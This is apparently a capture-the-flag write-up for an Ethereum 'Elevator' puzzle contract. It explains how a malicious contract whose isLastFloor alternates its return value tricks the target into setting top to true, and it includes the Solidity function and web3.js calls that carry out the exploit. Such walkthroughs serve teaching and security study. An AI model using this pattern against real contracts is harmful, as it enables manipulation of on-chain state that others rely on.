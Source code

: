 Supposedly, this function only proceeds when `building.isLastFloor(_floor)` is false:

```solidity
if (! building.isLastFloor(_floor)) {
    floor = _floor;
    top = building.isLastFloor(floor);
}
```

Then `top` should be false too since `isLastFloor` is called with the same input.

However it is possible to output different results for the same input.
For example, this contract will switch its results on each call:

```solidity
function isLastFloor(uint floor) external returns (bool) {
    count += 1;
    return count % 2 == 0;
}
```

The input actually has no impact on the result.

```js
abi = '[{"inputs":[],"stateMutability":"nonpayable","type":"constructor"},{"inputs":[{"internalType":"uint256","name":"floor","type":"uint256"}],"name":"isLastFloor","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"pwn","outputs":[],"stateMutability":"nonpayable","type":"function"}]';
topple = new web3.eth.Contract(JSON.parse(abi), '0x570784E7748Df48b8fd8B3Ec5443F9A64d8e3FF3');
// false
await contract.top()
// attack
topple.methods.pwn().send({from: player}, function(error, data) {console.log(data);});
// true
await contract.top()
```
